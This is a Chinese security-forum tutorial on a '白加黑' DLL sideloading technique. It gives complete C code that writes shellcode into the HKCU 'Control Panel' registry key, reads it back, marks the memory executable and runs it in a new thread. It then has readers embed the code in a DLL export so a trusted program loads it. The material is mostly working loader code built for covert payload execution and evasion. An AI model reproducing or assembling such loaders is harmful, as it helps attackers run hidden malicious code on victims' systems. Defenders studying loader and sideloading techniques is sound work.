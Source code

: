

# 白加黑写入 Shellcode 到注册表上线 - 先知社区

白加黑写入 Shellcode 到注册表上线

- - -

其实本质就是将 shellcode 写入到注册表中，然后读取注册表中的 shellcode，然后创建线程去执行 shellcode。

如下图：

[![](assets/1704762277-823e7311f2ddbcc1c646236ff0f92048.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240107121810-c45f6a16-ad13-1.png)

## 写入注册表 shellcode

这里将 shellcode 写入到注册表中，在我们需要的时候再去读取然后执行。

这里用到如下两个 Windows API 函数。

```bash
RegOpenKeyExA
RegSetValueExA
```

## RegOpenKeyExA

```bash
LSTATUS RegOpenKeyExA(
  [in]           HKEY   hKey,
  [in, optional] LPCSTR lpSubKey,
  [in]           DWORD  ulOptions,
  [in]           REGSAM samDesired,
  [out]          PHKEY  phkResult
);
```

第一个参数需要的是打开注册表的句柄。

第二个参数表示要打开注册表子项的句柄。

第三个参数表示指定要在打开密钥时应用的选项。

最重要是的是第四个参数是对注册表的访问权限，因为我们要在注册表下创建一个 String Value，所以这里的权限我们设置为 KEY\_SET\_VALUE 即可。

如下代码：

```bash
RegOpenKeyExA(HKEY_CURRENT_USER,REGISTRY,0,KEY_SET_VALUE,&keys);
```

接下来就是设置注册表的值了。

这里使用的是 RegSetValueExA 函数 如下：

```bash
LSTATUS RegSetValueExA(
  [in]           HKEY       hKey,
  [in, optional] LPCSTR     lpValueName,
                 DWORD      Reserved,
  [in]           DWORD      dwType,
  [in]           const BYTE *lpData,
  [in]           DWORD      cbData
);
```

第一个参数就是注册表的句柄，而且它的权限必须是 KEY\_SET\_VALUE，也就是我们上面设置的。

第二个参数是我们要设置值的名称，就是注册表里面值得名称，第三个参数是保留参数必须为 0，第四个参数是注册表里面值得类型，这里指定为 REG\_BINARY，表示任意的二进制数据，这里可以参考微软官网：[Registry value types - Win32 apps | Microsoft Learn](https://learn.microsoft.com/zh-cn/windows/win32/sysinfo/registry-value-types)

第五个参数表示你要存储的数据，也就是你的 shellcode，最后一个参数是你 shellcode 的大小。

如下代码实现：

```bash
#define REGISTRY "Control Panel" //这里是写入注册表的目录 也就是 计算机\HKEY_CURRENT_USER\Control Panel
#define REGSTRING "relaysec" //定义你注册表写入值得名字
BOOL WirteShellcodeRegister(PBYTE shellcode,DWORD shellcodeSize) {
     BOOL        bs = TRUE;
     LSTATUS     sts = NULL;
     HKEY        keys = NULL;
     sts = RegOpenKeyExA(HKEY_CURRENT_USER,REGISTRY,0, KEY_SET_VALUE, &keys);
     if(sts == NULL){
         bs = FALSE;
     }
     sts = RegSetValueExA(keys, REGSTRING, 0, REG_BINARY, shellcode, shellcodeSize);
     if(sts == NULL){
         bs = FALSE;
     }
_EndOfFunction:
    if (keys)
        RegCloseKey(keys);
    return bs;
}
```

成功写入：

[![](assets/1704762277-dba82b87dbe50f8a23afcb44fa9e85fd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240107121839-d5a1d926-ad13-1.png)  
写入之后我们接下来要进行读取注册表中的 shellcode。

## 读取注册表 shellcode

这里需要用到如下的 Windows API 函数：

```bash
RegGetValueA
HeapAlloc
```

## RegGetValueA

```bash
LSTATUS RegGetValueA(
  [in]                HKEY    hkey,
  [in, optional]      LPCSTR  lpSubKey,
  [in, optional]      LPCSTR  lpValue,
  [in, optional]      DWORD   dwFlags,
  [out, optional]     LPDWORD pdwType,
  [out, optional]     PVOID   pvData,
  [in, out, optional] LPDWORD pcbData
);
```

第一个参数依旧是注册表项的句柄，而且必须是 KEY\_QUERY\_VALUE 权限的。

第二个参数填写注册表的路径，它将从子项中检索注册表的值。

第三个参数表示注册表的名称。

第四个参数用于限制数据类型，如果值的数据类型不符合此条件，则函数将失败，这里我们设置 RRF\_RT\_ANY 即可，没有类型限制。

第五个参数是存储在指定值中的数据类型的代码，一般设置为 NULL。

第六个参数表示接收存储在指定值的指针，如果不需要值得话也可以设置为 NULL。

最后一个参数接收值数据的缓冲区的指针，这里我们设置接收一下即可。

如下完整代码：

```bash
BOOL ReadShellcodeRegister(PBYTE* shellcode, SIZE_T* shellcodeSize) {
    LSTATUS    sts = NULL;
    DWORD       dread = NULL;
    PVOID       ps = NULL;
    sts = RegGetValueA(HKEY_CURRENT_USER, REGISTRY, REGSTRING, RRF_RT_ANY, NULL, NULL, &dread);
    if (sts !=0L) {
        return FALSE;
    }
    ps = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, dread);
    if (ps == NULL) {
        return FALSE;
    }
    sts = RegGetValueA(HKEY_CURRENT_USER, REGISTRY, REGSTRING, RRF_RT_ANY, NULL, ps, &dread);
    if (sts != 0L) {
        return FALSE;
    }
    *shellcode = (PBYTE)ps;
    *shellcodeSize = dread;
    return TRUE;
}
```

这里为什么要读取两次，因为第一次读取的是注册表项，第二次才是值。

[![](assets/1704762277-2b0cc0f76f4928db1de0d9d726b8b525.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240107121906-e5cb2712-ad13-1.png)  
读取到值之后然后赋值给 shellcode。

读取完成之后就是执行了，这里我们使用创建线程的方式去执行。

首先申请一块内存：

```bash
BOOL executeShellcode(PVOID shellcode, SIZE_T shellcodeSize){
     DWORD dwOldProtection = NULL;
     PVOID shellcodeAddress = shellcodeAddress = VirtualAlloc(NULL, shellcodeSize, MEM_COMMIT | MEM_RESERVE,      PAGE_READWRITE);
}
```

[![](assets/1704762277-f13fb33448ce4e44486e2ab6cd74ba14.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240107121913-e9cb5f4e-ad13-1.png)  
申请内存之后将 shellcode 复制进去。

```bash
BOOL executeShellcode(PVOID shellcode, SIZE_T shellcodeSize){
     DWORD dwOldProtection = NULL;
     PVOID shellcodeAddress = shellcodeAddress = VirtualAlloc(NULL, shellcodeSize, MEM_COMMIT | MEM_RESERVE,      PAGE_READWRITE);
     if (shellcodeAddress == NULL) {
            return FALSE;
    }
     memcpy(shellcodeAddress, shellcode, shellcodeSize);
     memset(shellcode, '\0', shellcodeSize);
}
```

[![](assets/1704762277-ec032d662a0de7f8a951309e8a1d5e2e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240107121920-edc47054-ad13-1.png)  
copy 进去之后将权限更改为 PAGE\_EXECUTE\_READWRITE，然后创建线程执行。

```bash
BOOL executeShellcode(PVOID shellcode, SIZE_T shellcodeSize){
     DWORD dpOld = NULL;
     PVOID shellcodeAddress = shellcodeAddress = VirtualAlloc(NULL, shellcodeSize, MEM_COMMIT | MEM_RESERVE,      PAGE_READWRITE);
     if (shellcodeAddress == NULL) {
            return FALSE;
    }
     memcpy(shellcodeAddress, shellcode, shellcodeSize);
     memset(shellcode, '\0', shellcodeSize);
      if (!VirtualProtect(shellcodeAddress, shellcodeSize, PAGE_EXECUTE_READWRITE, &dpOld)) {
            return FALSE;
     }
     getchar();

    if (CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE)shellcodeAddress, NULL, NULL, NULL) == NULL) {
        return FALSE;
    }

    return TRUE;
}
```

[![](assets/1704762277-054288d857eee6f471f8d1d26f5e0302.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240107121925-f10ee348-ad13-1.png)

## 集成到白加黑中

我们直接将前面所写的写入，读取，执行这三部的代码 copy 到 dll 中，然后放到导出函数去执行即可。

[![](assets/1704762277-84472f7f12579ed9b1fde9d9c2d85db8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240107121930-f43c4650-ad13-1.png)

[![](assets/1704762277-b939acb301a01134405aabe5b0cabc46.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240107121937-f8647ad6-ad13-1.png)
